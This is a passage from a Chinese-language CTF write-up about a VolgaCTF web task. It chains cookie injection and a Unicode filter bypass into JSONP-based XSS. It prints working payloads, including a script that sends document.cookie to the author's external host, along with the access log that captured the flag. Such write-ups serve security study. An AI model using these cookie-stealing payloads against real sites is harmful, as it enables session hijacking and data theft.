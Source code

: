 ```plaintext
document.cookie = 'api_server=anything; domain=.volgactf-task.ru; path=/';
```

所以我們就可以劫持一開始所說的對 API server 發的請求，不過在取出 api_server cookie 之後還會對值作一些過濾，雖然不能用「/」、「#」等字元，但可以塞 Unicode 字元，在經過 replaceForbiden 處理後，像是「喵」的字元會變成「?」，配合 API url 組合的方式，只要寫入 `api_server=cyku.tw喵` 的 cookie，我們就可以讓目標對 `//cyku.tw?.volgactf-task.ru/user` 發出請求，只要再回應惡意的 JSONP 內容，就可以得到 `volgactf-task.ru` 下的 XSS 了。

```javascript
function replaceForbiden(str) {
  return str.replace(/[ !"#$%&織()*+,\-\/:;<=>?@\[\\\]^_`{|}~]/g,'').replace(/[^\x00-\x7F]/g, '?');
}

api = replaceForbiden(Cookies.get('api_server'));

$.getJSON(`//${api}.volgactf-task.ru/user?guid=${guid}`, function(data) { .. });
```

<br />

最終的一些 Payload

`https://static.volgactf-task.ru/dc22aeee8535ae22cfbc8436362bd602`：
```plaintext
HTTP/1.1 200 OK
Server: nginx/1.16.1 (Ubuntu)
Date: Sun, 29 Mar 2020 16:01:04 GMT
Content-Type: text/html
Content-Length: 170
Connection: close
x-amz-id-2: lnjpjj+DN8MtESPMLchngoj5N26k9fp0vgNSbok8tzdFrmOxeeQZEcZp0E9UN3meoO0FJmxJx6c=
x-amz-request-id: 592B8F8A3A31F54F
Last-Modified: Sun, 29 Mar 2020 16:00:59 GMT
ETag: "f1f0b0742b543cfb93c8a175368ebdd7"
Accept-Ranges: bytes
X-Content-Type-Options: nosniff

<script>
document.cookie = 'api_server=poc.cyku.tw\u55B5; domain=.volgactf-task.ru; path=/';
document.location = 'https://volgactf-task.ru/profile.html?guid=?';
</script>
```


`poc.cyku.tw`：
```php
<?php
header('application/javascript');
header('Access-Control-Allow-Origin: *');
?>

(new Image).src = '//poc.cyku.tw/?flag=' + document.cookie;
```

最後在 Report Bug 送出連結後，就能在 access.log 收到 flag

```
134.209.205.157 - - [28/Mar/2020:06:38:20 +0000] "GET /?flag=flag=VolgaCTF_0558a4ad10f09c6b40da51c8ad044e16;%20api_server=poc.cyku.tw%E5%96%B5 HTTP/2.0" 200 81 "https://volgactf-task.ru/profile.html?guid=?" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:74.0) Gecko/20100101 Firefox/74.0" "-"
```

Flag：`VolgaCTF_0558a4ad10f09c6b40da51c8ad044e16`